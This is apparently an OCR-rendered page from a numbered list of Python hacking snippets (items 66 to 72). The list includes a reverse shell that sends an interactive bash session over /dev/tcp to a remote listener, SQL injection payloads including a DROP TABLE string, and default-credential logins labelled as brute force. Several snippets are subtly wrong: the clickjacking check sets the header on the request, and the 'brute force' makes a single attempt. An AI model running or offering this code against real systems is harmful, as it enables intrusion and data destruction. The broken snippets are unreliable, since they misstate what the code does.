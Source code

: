 ### 66. **Basic Web Application Login Automation**
```python
from selenium import webdriver
driver = webdriver.Chrome()
driver.get('http://example.com/login')
driver.find_element_by_name('username').send_keys('admin')
driver.find_element_by_name('password').send_keys('password')
driver.find_element_by_name('submit').click()
```

### 67. **Check for Clickjacking Vulnerability**
```python
import requests
headers = {'X-Frame-Options': 'DENY'}
response = requests.get('http://example.com', headers=headers)
if 'X-Frame-Options' not in response.headers:
    print("Vulnerable to clickjacking")
```

### 68. **Retrieve HTTP Headers from URL**
```python
import requests
response = requests.head('http://example.com')
print(response.headers)
```

### 69. **Scan for SQL Injection Vulnerabilities**
```python
import requests
payloads = ["' OR 1=1 --", "' DROP TABLE users; --"]
for payload in payloads:
    url = f'http://example.com/search?query={payload}'
    response = requests.get(url)
    if "error" in response.text:
        print(f'Potential SQL Injection: {url}')
```

### 70. **Automating Brute Force for FTP Login**
```python
from ftplib import FTP
ftp = FTP('example.com')
ftp.login('admin', 'password')
print(ftp.getwelcome())
```

### 71. **Automated Reverse Shell via `subprocess`**
```python
import subprocess
subprocess.Popen(['bash', '-c', 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'])
```

### 72. **Extract Email Addresses from Text**
```python
import re
text = "Contact us at admin@example.com"
emails = re.findall(r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}\b', text)
print(emails)
```
